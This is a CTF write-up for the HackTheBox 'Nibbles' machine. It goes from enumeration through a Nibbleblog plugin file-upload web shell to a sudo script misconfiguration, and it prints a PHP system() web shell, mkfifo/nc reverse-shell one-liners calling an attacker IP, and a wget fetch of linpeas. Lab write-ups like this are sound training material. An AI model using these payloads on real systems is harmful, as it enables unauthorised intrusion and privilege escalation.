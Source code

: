 ```yaml
---
title: Nibbles writeup - HackTheBox
date: 2022-10-02
categories: [HackTheBox, Machine]
tags: [gobuster]
---
```


# Introduction
Let's walk through the box **Nibbles**, an easy-rated Linux box that showcases common enumeration tactics, basic web application exploitation, and a file-related misconfiguration to escalate privileges.

>For this writeup I will say that the IP adresses are the following: 
>
> - __attack machine__ is `10.10.10.1`
> 
> - __target machine__ is `10.10.10.2`
{: .prompt-warning }

# Enumeration
Firstly let's do some basic enumeration with nmap.
We will begin with a simple quick scan to discover common open ports and service versions:
````console
nmap -sV --open 10.10.10.2
````

We quickly see two open ports:
````console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
````

Let's start another scan, a full one this time, to be sure to not miss any unusual port:
````
nmap -sV -p- 10.10.10.2
````

While the full scan is running we can check the two known open ports with the defaults nmap scripts:
````
nmap -sC -p 22,80 10.10.10.2
````

Unfortunatly the full scan and the script scan didn't finish with something useful for us. Now let's look at the web server we found.

## Web Enumeration

When we open firefox on the address there is just one message displayed: Hello world!

Checking the page source reveal an interesting comment:
````html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
````

A simple web research on **Nibbleblog** shows that it's a PHP based blog engine with a well know File Upload Vulnerability which allows an authenticated attacker to upload and execute PHP code on the server. We still don't know yey which version on Nibbleblog is running this server but it's still something good to know.

Now it's time to use gobuster to discover hidden directories:
````console
gobuster dir -w /path/to/wordlist/common.txt -u 10.10.10.2
````

Nothing interesting with this scan. Let's try now to add the directory found in the html comment:
````console
gobuster dir -w /path/to/wordlist/common.txt -u 10.10.10.2/nibbleblog/
==========================================================================
/.hta                 (Status: 403) [Size: 302]
/.htaccess            (Status: 403) [Size: 307]
/.htpasswd            (Status: 403) [Size: 307]
/admin                (Status: 301) [Size: 323] [--> http://10.10.10.2/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]                                           
/content              (Status: 301) [Size: 325] [--> http://10.10.10.2/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]                                             
/languages            (Status: 301) [Size: 327] [--> http://10.10.10.2/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 325] [--> http://10.10.10.2/nibbleblog/plugins/]  
/README               (Status: 200) [Size: 4628]                                               
/themes               (Status: 301) [Size: 324] [--> http://10.10.10.2/nibbleblog/themes/]  
````

Many directories found here!

After looking at each here are the interesting ones for now:
- admin/    -> Many files here
- admin.php -> login form
- content/  -> 
- README/ -> confirm the vulnerable version

Can't bruteforce login -> error message to blacklist us

In /content/private we find user.xml containing the admin user and we can see some blacklisted addresses

Nothing seems to leak the password. Finding the word nibbles in many files is worth giving it a try with the admin user.

Bingo!

Not easy to guess a password like that. HackTheBox advices us to use tools such as [CeWL](https://github.com/digininja/CeWL) to create custom generated wordlist based on a website.

# Initial Foothold

Now we are logged as admin let's take time to walk the administration panel.
Attempting to make a new page and embed code or upload files does not seem like the path. Let us check out the plugins page.

On the configuration page of the My image plugin we can see an upload form. Here we will try to send some PHP code to the server:

Firstly let's try to print the id command by savin the below code into a test.php file and uploading it:
````php
<?php system('id'); ?>
````

Now if we cURL the good URL:
````bash
curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
````

- now let's upload a reverse shell, inspired by payloadallthethings: <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
- setup the nc listener : nc -lvnp 9443
- add python3 -c 'import pty; pty.spawn("/bin/bash")' to upgrade the shell
- listing files shows user.txt and personal.zip

> here is the user flag !

# Privilege Escalation 
- unzip the zip and see a monitor.sh
- let's move linpeas.sh to the victim machine
- python -m http.server 8000
- wget 10.10.10.1:8000/linpeas.sh
- chmod +x linpeas.sh
- ./linpeas.sh
- The nibbler user can run the monitor.sh file with root privs and us we can modify the content! So we will append a reverse shell cmd to the end of the file to get root access
- echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
- nc -lvnp 4445
- sudo monitor.sh

> Here is the root flag !